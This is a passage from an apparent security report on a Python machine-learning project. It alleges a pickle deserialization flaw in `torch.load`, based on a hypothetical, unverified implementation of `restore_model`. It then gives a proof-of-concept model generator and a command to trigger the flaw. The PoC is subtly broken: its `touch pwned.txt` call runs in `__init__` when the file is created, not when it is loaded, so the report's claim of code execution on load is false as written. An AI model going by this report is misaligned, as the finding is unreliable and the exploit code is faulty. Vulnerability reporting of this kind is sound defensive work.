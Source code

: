     2. **File: `/code/dpu_utils/ptutils/BaseComponent.py` (Note: This file is not provided in PROJECT FILES, assuming `dpu_utils` is an external library and `BaseComponent.restore_model` internally uses `torch.load` which relies on `pickle`)**
        ```python
        # Hypothetical implementation of BaseComponent.restore_model in dpu_utils/ptutils/BaseComponent.py
        import torch

        class BaseComponent:
            ...
            @staticmethod
            def restore_model(model_path: RichPath, device: str = 'cpu') -> 'BaseComponent':
                ...
                model = torch.load(model_path.to_local_path().path, map_location=device) # Potentially vulnerable torch.load using pickle
                ...
                return model
        ```
        - The `restore_model` function, assumed to be within `dpu_utils.ptutils.BaseComponent` and not provided in the project files, likely uses `torch.load` to load the model from the specified path.
        - `torch.load` in PyTorch, by default, uses Python's `pickle` module for deserialization.
        - `pickle` is known to be vulnerable to deserialization attacks when loading data from untrusted sources. It can execute arbitrary code embedded in the pickled data.
        - By controlling the `MODEL_FILENAME` argument, an attacker can supply a malicious file that will be processed by `pickle.load`, leading to arbitrary code execution.

- **Security Test Case:**
    1. **Create a malicious model file:**
        - Create a Python file (e.g., `malicious_model_generator.py`) with the following content:
            ```python
            import torch
            import subprocess
            import os

            class MaliciousModel(torch.nn.Module):
                def __init__(self):
                    super().__init__()
                    # Malicious code to execute: create a file named "pwned.txt"
                    subprocess.run(["touch", "pwned.txt"])

            model = MaliciousModel()
            torch.save(model, 'malicious_model.pkl.gz')
            print("Malicious model file 'malicious_model.pkl.gz' created.")
            ```
        - Run this script: `python malicious_model_generator.py`. This will create a file named `malicious_model.pkl.gz` in the current directory. This file, when loaded, will execute the `touch pwned.txt` command.

    2. **Run `outputparallelpredictions.py` with the malicious model:**
        - Navigate to the `/code/model/` directory in the project repository.
        - Execute the `outputparallelpredictions.py` script, providing the path to the malicious model file created in step 1 as `MODEL_FILENAME`, and providing dummy paths for `TEST_DATA` and `OUT_PREFIX` as they are not relevant for triggering this vulnerability:
            ```bash
            python3 outputparallelpredictions.py malicious_model.pkl.gz dummy_test_data dummy_output_prefix
            ```
        - **Observe the impact:** After running the command, check the current directory. You should find a new file named `pwned.txt`. The presence of this file confirms that the malicious code embedded in `malicious_model.pkl.gz` was successfully executed when the model file was loaded by `outputparallelpredictions.py` through `BaseComponent.restore_model` and `torch.load`.
